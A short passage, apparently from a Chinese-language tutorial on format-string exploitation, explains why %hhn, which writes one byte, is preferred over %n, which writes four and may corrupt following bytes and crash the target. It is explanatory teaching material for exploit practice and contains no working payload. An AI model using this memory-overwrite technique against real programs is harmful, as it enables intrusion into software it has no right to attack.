

当然，我们也可以利用 %n 分别对每个地址进行写入，也可以得到对应的答案，但是由于我们写入的变量都只会影响由其开始的四个字节，所以最后一个变量写完之后，我们可能会修改之后的三个字节，如果这三个字节比较重要的话，程序就有可能因此崩溃。而采用 %hhn 则不会有这样的问题，因为这样只会修改相应地址的一个字节。
